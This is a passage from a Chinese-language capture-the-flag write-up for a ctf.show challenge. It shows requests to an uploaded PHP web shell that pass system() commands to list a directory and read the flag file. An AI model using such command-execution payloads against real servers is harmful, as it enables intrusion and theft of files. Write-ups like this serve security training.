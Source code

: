 然后查看upload/1.php，然后传入执行代码。

GET

```url
http://38498ddd-3061-4bb8-8590-a99800a45355.challenge.ctf.show/upload/1.php
```

POST

```url
x=system("ls ../");
```

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然后查看flag.php文件

GET

```url
http://38498ddd-3061-4bb8-8590-a99800a45355.challenge.ctf.show/upload/1.php
```

POST

```url
x=system("cat ../f*");
```

